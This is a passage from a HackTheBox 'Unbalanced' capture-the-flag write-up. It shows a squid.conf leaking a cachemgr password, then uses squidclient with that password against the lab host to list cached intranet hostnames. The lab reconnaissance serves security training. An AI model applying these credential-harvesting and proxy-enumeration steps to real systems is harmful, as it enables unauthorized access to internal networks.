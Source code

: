 Looking through the files we can find a interesting information:

```bash
root@darkness:/mnt/encfs# cat squid.conf
#       WELCOME TO SQUID 4.6
#       ----------------------------
#
#       This is the documentation for the Squid configuration file.
#       This documentation can also be found online at:
#               http://www.squid-cache.org/Doc/config/
[...]
# Only allow cachemgr access from localhost
#http_access allow localhost manager
#http_access deny manager
http_access allow manager
[...]
# Allow access to intranet
acl intranet dstdomain -n intranet.unbalanced.htb
acl intranet_net dst -n 172.16.0.0/12
http_access allow intranet
http_access allow intranet_net

# And finally deny all other access to this proxy
http_access deny all
[...]
#Example:
# cachemgr_passwd secret shutdown
# cachemgr_passwd lesssssssecret info stats/objects
# cachemgr_passwd disable all
#Default:
# No password. Actions which require password are denied.
cachemgr_passwd Thah$Sh1 menu pconn mem diskd fqdncache filedescriptors objects vm_objects counters 5min 60min histograms cbdata sbuf events
```

The `squid.conf` file is very interesting. Not only does this probably mean that `squid 4.6` is running as the http-proxy, but we also know how it is setup.

It seems like we are able to access `cachemgr` and have access to the intranet. (Domain: `intranet.unbalanced.htb`) Finally, we have a password: `Thah$Sh1`, which we can use to access the proxy.

Let us setup the proxy and try to access the intranet.

### http-proxy - Port 3128

As we have access to the proxy and are allowed to run `fqdncache`, we can list all cached DNS-entries of the proxy, potentially leaking more hostnames.

```bash
root@darkness:~# squidclient -h 10.10.10.200 -p 3128 -w 'Thah$Sh1' mgr:fqdncache
squidclient -h 10.10.10.200 -p 3128 -w 'Thah$Sh1' mgr:fqdncache
HTTP/1.1 200 OK
[...]
FQDN Cache Statistics:
FQDNcache Entries In Use: 9
FQDNcache Entries Cached: 8
FQDNcache Requests: 104
FQDNcache Hits: 0
FQDNcache Negative Hits: 0
FQDNcache Misses: 104
FQDN Cache Contents:

Address                                       Flg TTL Cnt Hostnames
127.0.1.1                                       H -001   2 unbalanced.htb unbalanced
::1                                             H -001   3 localhost ip6-localhost ip6-loopback
172.31.179.2                                    H -001   1 intranet-host2.unbalanced.htb
172.31.179.3                                    H -001   1 intranet-host3.unbalanced.htb
```